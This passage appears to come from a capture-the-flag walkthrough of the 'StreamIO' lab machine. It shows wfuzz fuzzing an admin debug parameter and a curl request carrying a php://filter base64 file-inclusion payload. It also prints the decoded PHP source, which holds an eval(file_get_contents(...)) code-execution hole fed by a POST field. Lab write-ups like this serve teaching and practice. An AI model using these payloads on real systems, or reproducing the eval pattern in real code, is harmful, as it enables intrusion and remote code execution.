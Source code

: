 Not sure what we need those for yet, save for later.

## More Wfuzz

We can fuzz to look for more php files now we know we can access them via the debug parameter:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# wfuzz -c -b PHPSESSID=3k47ea2n095607g9vukkpvhu72 --hh 1712 -u 'https://streamio.htb/admin/?debug=FUZZ' -w /usr/share/seclists/Discovery/Web-Content/Common-PHP-Filenames.txt
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: https://streamio.htb/admin/?debug=FUZZ
Total requests: 5163
=====================================================================
ID           Response  Lines      Word       Chars       Payload
=====================================================================
000000002:   200       46 L       136 W      1693 Ch     "index.php"
000002123:   200       1584516 L  4546873 W  57765942 Ch "Index.php"
000003375:   200       11218 L    26841 W    344592 Ch   "master.php"
Processed Requests: 5163
Filtered Requests: 5160
```

We have a new file called master.php, let's have a look at that:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# curl -k --cookie "PHPSESSID=3k47ea2n095607g9vukkpvhu72" "https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php"
```

We get the html back with another long base64 encoded string at the end. Decode it:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# echo "PGgxPk1vdmllIGwvaDE <SNIP> 8oIiAtL9DQo/Pg==" | base64 -d
```

Look at the end of the file:

```php
<br><hr><br>
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
```
